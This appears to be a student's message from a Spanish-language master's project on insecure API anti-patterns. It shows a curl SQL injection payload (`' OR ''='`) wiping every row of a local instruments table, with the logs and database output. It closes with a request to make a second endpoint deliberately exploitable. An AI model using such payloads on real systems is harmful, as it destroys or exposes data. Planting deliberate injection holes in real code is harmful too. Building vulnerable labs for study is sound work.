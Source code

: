 Como se realizo anteriormente, volver un endpoint vulnerable a SQL injection (DeleteInstrumentSQLi).
Que funciona y es explotable con el payload:

root@pho3nix:/home/diegoall/MAESTRIA_ING/anti-pattern-API/anti-pattern-API2# curl -X DELETE "http://localhost:8080/instruments/vulnerable-sqli?id=3%27%20OR%20%27%27=%27"
{"error":false}

root@pho3nix:/home/diegoall/MAESTRIA_ING/anti-pattern-API/anti-pattern-API2# docker logs -f anti-pattern-api2_app_1
2025/06/19 04:37:42 No se pudo cargar el archivo .env, usando variables del entorno
2025/06/19 04:37:42 Conexión a la base de datos establecida exitosamente.
2025/06/19 04:37:42 Servidor iniciado en http://localhost:8080

Consulta SQL ejecutada (vulnerable): DELETE FROM instruments WHERE id = '3' OR ''=''

Se evidencia que se eliminan los registros de la base de datos:
mydatabase=# select * from instruments;
 id |        name        |                   description                   | price |         created_at         |         updated_at         
----+--------------------+-------------------------------------------------+-------+----------------------------+----------------------------
  1 | Guitarra eléctrica | Guitarra Fender Stratocaster de seis cuerdas    |  1200 | 2025-06-19 04:34:03.760094 | 2025-06-19 04:34:03.760094
  2 | Batería acústica   | Set completo de batería Pearl con platillos     |  2300 | 2025-06-19 04:34:03.760094 | 2025-06-19 04:34:03.760094
  3 | Teclado digital    | Yamaha con 88 teclas contrapesadas              |   850 | 2025-06-19 04:34:03.760094 | 2025-06-19 04:34:03.760094
  4 | Violín             | Violín acústico hecho a mano con arco y estuche |   600 | 2025-06-19 04:34:03.760094 | 2025-06-19 04:34:03.760094
  5 | Saxofón alto       | Saxofón profesional con boquilla y correa       |  1500 | 2025-06-19 04:34:03.760094 | 2025-06-19 04:34:03.760094
(5 rows)

mydatabase=# select * from instruments;
 id | name | description | price | created_at | updated_at 
----+------+-------------+-------+------------+------------
(0 rows)


Ahora requiero algo similar pero para el endpoint de (GetInstrumentByIDSQLi) de tal forma que tambien se pueda explotar utilizando curl. ya lo implemente pero no borro los registros.

curl -X GET "http://localhost:8080/instruments/vulnerable-sqligetinst?id=3%27%20OR%20%27%27=%27"

root@pho3nix:/home/diegoall/MAESTRIA_ING/anti-pattern-API/anti-pattern-API2# curl -X GET "http://localhost:8080/instruments/vulnerable-sqligetinst?id=3%27%20OR%20%27%27=%27"
Instrumento no encontrado o error de base de datos

La funcion la implemente utilizando query params pero al parcer no funciona. Podrias ayudarme a corregirla de tal forma que pueda ser explotable.


- Aca esta /handlers/instrument_handlers.go

package handlers
